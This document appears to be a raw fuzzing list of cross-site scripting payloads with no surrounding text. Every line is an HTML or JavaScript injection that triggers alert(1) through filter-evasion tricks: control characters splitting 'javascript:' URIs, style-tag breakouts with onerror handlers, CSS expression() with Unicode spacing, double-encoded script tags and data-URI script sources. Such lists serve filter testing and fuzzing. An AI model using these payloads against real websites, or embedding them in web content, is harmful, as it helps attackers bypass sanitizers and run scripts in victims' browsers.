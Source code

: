       <a href="javas\x0Dcript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x0Acript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x08cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x02cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x03cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x04cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x01cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x05cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x0Bcript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x09cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x06cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x0Ccript:javascript:alert(1)" id="fuzzelement1">test</a>
      <script>/* *\x2A/javascript:alert(1)// */</script>
      <script>/* *\x00/javascript:alert(1)// */</script>
      <style></style\x3E<img src="about:blank" onerror=javascript:alert(1)//></style>
      <style></style\x0D<img src="about:blank" onerror=javascript:alert(1)//></style>
      <style></style\x09<img src="about:blank" onerror=javascript:alert(1)//></style>
      <style></style\x20<img src="about:blank" onerror=javascript:alert(1)//></style>
      <style></style\x0A<img src="about:blank" onerror=javascript:alert(1)//></style>
      "'`>ABC<div style="font-family:'foo'\x7Dx:expression(javascript:alert(1);/*';">DEF 
      "'`>ABC<div style="font-family:'foo'\x3Bx:expression(javascript:alert(1);/*';">DEF 
      %253Cscript%253Ealert('XSS')%253C%252Fscript%253E
      <script>if("x\\xE1\x96\x89".length==2) { javascript:alert(1);}</script>
      <script>if("x\\xE0\xB9\x92".length==2) { javascript:alert(1);}</script>
      <script>if("x\\xEE\xA9\x93".length==2) { javascript:alert(1);}</script>
      '`"><\x3Cscript>javascript:alert(1)</script>
      '`"><\x00script>javascript:alert(1)</script>
      "'`><\x3Cimg src=xxx:x onerror=javascript:alert(1)>
      "'`><\x00img src=xxx:x onerror=javascript:alert(1)>
      <script src="data:text/plain\x2Cjavascript:alert(1)"></script>
      <script src="data:\xD4\x8F,javascript:alert(1)"></script>
      <script src="data:\xE0\xA4\x98,javascript:alert(1)"></script>
      <script src="data:\xCB\x8F,javascript:alert(1)"></script>
      <script\x20type="text/javascript">javascript:alert(1);</script>
      <script\x3Etype="text/javascript">javascript:alert(1);</script>
      <script\x0Dtype="text/javascript">javascript:alert(1);</script>
      <script\x09type="text/javascript">javascript:alert(1);</script>
      <script\x0Ctype="text/javascript">javascript:alert(1);</script>
      <script\x2Ftype="text/javascript">javascript:alert(1);</script>
      <script\x0Atype="text/javascript">javascript:alert(1);</script>
      ABC<div style="x\x3Aexpression(javascript:alert(1)">DEF
      ABC<div style="x:expression\x5C(javascript:alert(1)">DEF
      ABC<div style="x:expression\x00(javascript:alert(1)">DEF
      ABC<div style="x:exp\x00ression(javascript:alert(1)">DEF
      ABC<div style="x:exp\x5Cression(javascript:alert(1)">DEF
      ABC<div style="x:\x0Aexpression(javascript:alert(1)">DEF
      ABC<div style="x:\x09expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE3\x80\x80expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x84expression(javascript:alert(1)">DEF
      ABC<div style="x:\xC2\xA0expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x80expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x8Aexpression(javascript:alert(1)">DEF
      ABC<div style="x:\x0Dexpression(javascript:alert(1)">DEF
      ABC<div style="x:\x0Cexpression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x87expression(javascript:alert(1)">DEF
      ABC<div style="x:\xEF\xBB\xBFexpression(javascript:alert(1)">DEF
      ABC<div style="x:\x20expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x88expression(javascript:alert(1)">DEF
      ABC<div style="x:\x00expression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x8Bexpression(javascript:alert(1)">DEF
      ABC<div style="x:\xE2\x80\x86expression(javascript:alert(1)">DEF